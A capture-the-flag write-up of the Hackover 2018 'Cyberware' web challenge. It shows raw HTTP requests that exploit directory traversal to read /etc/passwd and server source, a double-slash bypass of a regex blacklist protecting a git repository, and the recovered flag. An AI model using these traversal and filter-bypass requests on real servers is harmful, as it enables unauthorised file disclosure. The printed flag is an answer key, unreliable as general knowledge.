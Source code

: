 # Cyberware (web, 416, 24 solved)

We get access to a webpage with links to 4 ascii-art files.
If we simply click on them, we can't see the files and we get HTTP 412 response.
Once we dig a bit deeper we can see a strange header `HTTP/1.1 412 referer sucks`

Once we send a raw request with no headers, we get back a nice picture:

```python
from crypto_commons.netcat.netcat_commons import nc


def main():
    s = nc("cyberware.ctf.hackover.de", 1337)
    s.sendall("GET /fox.txt  HTTP/1.0\r\nConnection: close\r\n\r\n")
    print(s.recv(9999))
    print(s.recv(9999))
    pass


main()
```

If we look closely at the responses we can see:

```
HTTP/1.1 200 Yippie
Server: Linux/cyber
Date: Sun, 07 Oct 2018 14:50:19 GMT
Content-type: text/cyber
Content-length: 414
```

This could suggest a custom-made http server of some sort.
Once we play around a bit we notice that there is a directory traversal there:

```
s.sendall("GET ./etc/passwd  HTTP/1.0\r\nConnection: close\r\n\r\n")
```

returns contents of `/etc/passwd` for us.

Now we can get `/proc/self/cmdline` which tells us we're running `/usr/bin/python3 ./cyberserver.py`, and we can read this file to recover [server source code](cyberserver.py)

The interesting part of the code is:

```python
        if path.startswith('flag.git') or search('\\w+/flag.git', path):
            self.send_response(403, 'U NO POWER')
            self.send_header('Content-type', 'text/cyber')
            self.end_headers()
            self.wfile.write(b"Protected by Cyberware 10.1")
            return
```

This suggests there is a `flag.git` repository there!
It seems blacklisted, but `\w+` does not match `/` and they included only a single `/` in the pattern so if we send two, it will bypass the check:

```
s.sendall("GET ./home/ctf//flag.git  HTTP/1.0\r\nConnection: close\r\n\r\n")
```

We get back a nice `HTTP/1.1 406 Cyberdir not accaptable`, so we made a proper request.

Now what is left is to modify some git-repo-dumper like https://github.com/internetwache/GitTools/tree/master/Dumper to grab the contents of the git repo and there we can find the flag: `hackover18{Cyb3rw4r3_f0r_Th3_w1N}`
